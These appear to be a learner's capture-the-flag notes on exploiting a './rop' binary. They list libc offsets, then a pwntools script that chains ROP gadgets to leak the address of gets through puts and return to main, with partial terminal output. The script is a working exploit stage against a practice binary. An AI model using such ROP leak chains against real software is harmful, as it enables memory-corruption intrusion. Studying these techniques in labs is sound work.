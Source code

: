 #### Remote `libc-2.31.so`
##### `read` offset
![[Pasted image 20240313114544.png]]
Adr: `0x0020e1e0`
Offset: `0x0010e1e0`
##### `syscall` offset
![[Pasted image 20240313114801.png]]
Addr: `0x00218940`
Offset: `0x00118940`



# How do I even use my leak?!?!?!?!
I can have it jump BACK to the beginning once it leaks !!!!

Testing this now:
###### Mainline
```python
def mainLinePld():
	binary = context.binary = ELF('./rop', checksec=False)
	
	# 0x00000000004006b3 : pop rdi ; ret
	popRDI = p64(0x004006b3)
	retGdgt = p64(0x004004a9)
	
	pltPuts = p64(binary.plt.puts)		# Address to call
	gotGets = p64(binary.got.gets)

	mainAddr = p64(0x00400621)			# Address of first line in main


	pld = cyclic(40)
	pld += retGdgt + popRDI + gotGets + pltPuts
	pld += mainAddr
	return pld


def mainline(p):
	i = 0
	while i < 3:
		p.recvuntil("tools..")
		p.sendline(mainLinePld())
		p.recvline()
		addr = p.recvline()
		log.info(addr)
		leak = u64(addr.ljust(8, b'\x00'))
		log.info("puts leak - " + hex(leak))
		i+=1
	p.interactive()
	
def localMainline():
	p = process("./rop")
	context.log_level = 'debug'
	mainline(p)
```
###### We can see the same address in the results
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ python3 RPP_Pwn_3.py
[+] Starting local process './rop': pid 116179
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_3.py:118: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
```
